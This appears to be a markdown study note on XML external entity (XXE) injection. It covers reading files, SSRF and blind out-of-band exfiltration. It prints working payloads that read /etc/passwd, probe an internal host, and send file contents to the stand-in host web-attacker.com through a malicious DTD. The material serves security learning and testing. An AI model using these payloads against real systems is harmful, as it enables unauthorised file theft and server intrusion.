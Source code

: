 ### XXE

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application’s processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.

In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other backend infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks.

## types of xxe attacks

---

- retrive files
- Exploiting XXE to perform SSRF attacks
- Exploiting blind XXE exfiltrate data out-of-band
- Exploiting blind XXE to retrieve data via error messages

## Exploiting XXE to retrieve files

---

modify the xml in 2 ways:

- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application’s response, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

you can exploit it modifing the xml to:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity **&xxe**; whose value is the contents of the /etc/passwd file and uses the entity within the productId value.

note: With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application’s response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.

## Exploiting XXE to perform SSRF attacks

---

In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization’s infrastructure:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Blind XXE vulnerabilities

---

### Exploiting blind XXE to exfiltrate data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn’t actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

http://web-attacker.com/malicious.dtd

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
